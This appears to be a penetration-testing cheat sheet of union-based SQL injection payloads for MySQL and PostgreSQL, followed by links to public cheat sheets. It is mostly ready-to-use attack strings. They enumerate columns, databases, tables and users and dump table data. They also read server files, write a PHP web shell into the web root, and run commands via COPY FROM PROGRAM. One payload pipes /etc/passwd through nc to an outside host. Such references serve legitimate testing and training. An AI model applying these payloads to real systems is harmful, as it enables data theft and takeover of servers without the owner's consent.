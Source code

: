 # Unon based SQL Injection

## Get columns number

Check how many columns have current table using order by. When order by have the wrong number of columns, it will return an error:
```
' order by 1;
' order by 2;
' order by 3;

# Or use nulls with unions
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

`NULL` is used because it is convertible to any data type of a column. 

## Find column with relevant data type - a string would be the best

This one needs to be compatible with datatype that we want to extract.

```
' UNION SELECT 'x',NULL,NULL--
' UNION SELECT NULL,'x',NULL--
' UNION SELECT NULL,NULL,'x'--
```

## Get database version
```
'+union+select+NULL,version(),NULL,NULL,NULL--
'+union+select+NULL,@@version,NULL,NULL,NULL--
```

## Get current user
```
'+union+select+NULL,current_user,NULL,NULL,NULL--
'+union+select+NULL,user,NULL,NULL,NULL--
'+union+select+NULL,user(),NULL,NULL,NULL--
```

## Extract database name:
```
# Extract current database name
' UNION SELECT ALL NULL,NULL,NULL,database();
' UNION SELECT ALL NULL,NULL,NULL,current_database();
```

List all databases:
```
'+union+select+NULL,datname,NULL,NULL,NULL from pg_database--
```

## Extract database tables names: 

```
// additionally database could be provided: table_schema = database()
'' UNION SELECT ALL 1,2,3,4,5,6,7,8,9,table_name FROM information_schema.tables  LIMIT 100;  

# PostgreSQL:
'+union+select+NULL,table_name,NULL,NULL,NULL from information_schema.tables where table_schema='public'--
# or
'+union+select+NULL,concat(table_schema, ' <--> ',table_name),NULL,NULL,NULL from information_schema.tables WHERE table_type = 'BASE TABLE' AND table_schema NOT IN ('pg_catalog', 'information_schema'); --
```

## Extract columns names from table:
```
SELECT * FROM `c5_logger_system` WHERE id=100 UNION SELECT ALL 1,2,3,4,5,6,7,8,table_name, column_name FROM information_schema.columns WHERE table_schema = database() and table_name = "c5_users"--;

# PostgreSQL
'+union+select+NULL,concat(table_name, ' <--> ',column_name),NULL,NULL,NULL from information_schema.columns WHERE table_schema='public' AND table_name='cars'--
```
## Extract data from table:
```
'+union+select+NULL,concat(id, ';',engine, ';', type),NULL,NULL,NULL from cars--
```

## Read files
```
' union+select+NULL,pg_read_file('/home/simon/.sudo_as_admin_successful',0,1000000),NULL,NULL,NULL--
' union+select+NULL,ENCODE(CONVERT_TO(pg_read_file('/var/www/html/dashboard.php',0,1000000), 'UTF-8'), 'BASE64'),NULL,NULL,NULL--

' union+select+NULL,pg_ls_dir('/home/simon'),NULL,NULL,NULL--
```
## Write a file:
```
# PostgreSQL
'; COPY(select+NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL) TO '/var/www/html/shell1.php'--
```

## Create a new table and insert data
```
'; DROP TABLE IF EXISTS dummytbl;CREATE TABLE dummytbl(data text);COPY dummytbl FROM PROGRAM 'echo 1';--
'+ union select NULL,data,NULL,NULL,NULL from dummytbl--

```

## Remote command execution
```
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6’, ‘system’ LANGUAGE ‘C’ STRICT; SELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080’)--
```

## Cheat sheets

https://portswigger.net/web-security/sql-injection/union-attacks
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://www.hackingloops.com/sql-injection-cheat-sheet/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
https://www.hackingloops.com/sql-injection-cheat-sheet/
https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection
https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet